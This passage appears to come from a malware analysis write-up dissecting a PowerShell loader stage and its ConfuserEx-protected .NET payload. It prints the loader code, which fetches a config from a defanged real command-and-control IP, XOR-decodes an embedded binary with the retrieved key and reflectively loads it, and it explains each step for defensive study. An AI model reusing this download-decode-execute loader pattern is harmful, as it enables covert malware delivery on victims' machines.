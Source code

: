 The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

## Binary Analysis

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

